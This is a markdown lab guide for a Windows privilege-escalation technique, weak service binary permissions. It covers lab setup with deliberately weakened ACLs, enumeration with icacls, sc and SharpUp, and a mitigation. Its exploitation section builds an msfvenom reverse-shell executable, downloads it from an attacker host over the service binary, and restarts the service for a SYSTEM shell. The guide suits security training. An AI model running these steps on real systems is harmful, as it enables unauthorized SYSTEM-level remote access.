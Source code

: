 # Weak Service Binary Permissions

## Table of Contents

- [Weak Service Binary Permissions](#weak-service-binary-permissions)
  - [Table of Contents](#table-of-contents)
  - [Description](#description)
  - [Lab Setup](#lab-setup)
    - [Manual Lab Setup](#manual-lab-setup)
    - [PowerShell Script Lab Setup](#powershell-script-lab-setup)
  - [Enumeration](#enumeration)
    - [Manual Enumeration](#manual-enumeration)
    - [Tool Enumeration](#tool-enumeration)
  - [Exploitation](#exploitation)
  - [Mitigation](#mitigation)
  - [References](#references)

## Description

Weak Service Binary Permissions indicate a vulnerability due to insufficient permissions on service executables. This vulnerability can be exploited by an adversary to modify the service executable, granting unauthorized access or potentially elevating system privileges.

## Lab Setup

### Manual Lab Setup

1) Open a PowerShell with local Administrtor Privileges and use the following command to create a new folder:

```
mkdir "C:\Program Files\CustomSrv2\"
```

2) Download the file [Service2.exe](/Lab-Setup-Binary/Service2.exe) to the 'C:\Program Files\CustomSrv2' directory.

3) Grant modify privileges to BUILTIN\Users for the service folder:

```
icacls "C:\Program Files\CustomSrv2\Service2.exe" /grant BUILTIN\Users:M
```

4) Install the new Service:

```
New-Service -Name "Vulnerable Service 2" -BinaryPathName "C:\Program Files\CustomSrv2\Service2.exe" -DisplayName "Vuln Service 2" -Description "My Custom Vulnerable Service 2" -StartupType Automatic
```

5) Edit new service's permissions to be controlled by BUILTIN\Users:

```
cmd.exe /c 'sc sdset "Vulnerable Service 2" D:(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCLCSWLOCRRC;;;AU)(A;;CCLCSWRPWPDTLOCRRC;;;PU)(A;;RPWP;;;BU)'
```

Outcome:

![Weak-Service-Binary-Manual-Lab-Setup](/Pictures/Weak-Service-Binary-Manual-Lab-Setup.png)

5) Verify the new service (services.msc):

![Weak-Service-Binary-Manual-Lab-Setup-Verify](/Pictures/Weak-Service-Binary-Manual-Lab-Setup-Verify.png)

6) Manually start the service from the service panel, or reboot the machine due to the service is set to start automatically upon machine boot.

:information_source: If you want to unistall the new service use the following command:

```
 Remove-Service -Name "Vulnerable Service 2"
```

### PowerShell Script Lab Setup

To set up the lab with the 'Weak Service Binary Permissions' vulnerability is by using the custom PowerShell script named [WeakServiceBinaryPermissions.ps1](/Lab-Setup-Scripts/WeakServiceBinaryPermissions.ps1).

1) Open a PowerShelll with local Administrator privileges and run the script:

```
.\WeakServiceBinaryPermissions.ps1
```

Outcome:

![Weak-Service-Binary-Script-Lab-Setup](/Pictures/Weak-Service-Binary-Script-Lab-Setup.png)

2) Manually start the service from the service panel, or reboot the machine due to the service is set to start automatically upon machine boot.

:information_source: If you want to unistall the new service use the following command:

```
 Remove-Service -Name "Vulnerable Service 2"
```

## Enumeration

### Manual Enumeration

To perform manual enumeration of the `Weak Service Binary Permissions` vulnerability, you can use the following steps:

1) Open a command prompt and use the following command to enumerate the permissions of the service binary:

```
icacls "C:\Program Files\CustomSrv2\Service2.exe"
```

Outcome:

![Weak-Service-Binary-Manual-Enumeration](/Pictures/Weak-Service-Binary-Manual-Enumeration.png)

2) Use the following command to find out the `START_TYPE` and `SERVICE_START_NAME`:

```
sc qc "Vulnerable Service 2"
```

Outcome:

![Weak-Service-Binary-Manual-Enumeration-Part-2](/Pictures/Weak-Service-Binary-Manual-Enumeration-Part-2.png)

3) Use the following command to find out the `STATE` and it's attributes:

```
sc query "Vulnerable Service 2"
```

Outcome:

![Weak-Service-Binary-Manual-Enumeration-Part-3](/Pictures/Weak-Service-Binary-Manual-Enumeration-Part-3.png)

:information_source: Finally, as you can see: 

- The BUILTIN\Users can modify the Service2.exe.
- The service automatically starts after machine boots.
- The Local System runs the service.
- The service is running.

### Tool Enumeration

To run the SharpUp tool and perform an enumeration of the `Weak Service Binary Permissions` vulnerability, you can execute the following command with appropriate arguments:

```
SharpUp.exe audit ModifiableServiceBinaries
```

Outcome:

![Weak-Service-Binary-Tool-Enumeration](/Pictures/Weak-Service-Binary-Tool-Enumeration.png)

## Exploitation

To abuse this vulnerability you should follow these steps:

1) If the service is running and you have permissions to stop it:

```
sc stop "Vulnerable Service 2"
```

Outcome:

![Weak-Service-Binary-Exploitaion-Part-1](/Pictures/Weak-Service-Binary-Exploitaion-Part-1.png)

2) Create with msfvenom a malicious exe file:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=eth0 LPORT=1234 -f exe > Service2.exe
```

3) Open a listener in your kali machine.

4) Transfer and overwrite the Service2.exe file with the malicious binary:

```
iwr -Uri http://<ip>:<port>/Service2.exe -Outfile C:\Program Filese\CustomSrv2\Service2.exe
```

5) Start the service with the following command or reboot the machine:

```
sc start "Vulnerable Service 2"
```
6) Verify the reverse shell on your Kali machine:

![Weak-Service-Binary-Permissions-Reverse-Shell](/Pictures/Weak-Service-Binary-Permissions-Reverse-Shell.png)

## Mitigation

To defend against Weak Service Binary Permissions vulnerabilities, adjust permissions on Service executables initiated through this mechanism. This limits unauthorized access and strengthens security measures:

```
icacls "C:\Program Files\CustomSrv2\Service2.exe" /remove:g BUILTIN\Users:(M)
```

## References

- [Access Control Overview Microsoft](https://learn.microsoft.com/en-us/windows/security/identity-protection/access-control/access-control)
- [Establishing Windows File and Folder Level Permissions by UWEC](https://www.uwec.edu/kb/article/drives-establishing-windows-file-and-folder-level-permissions/)
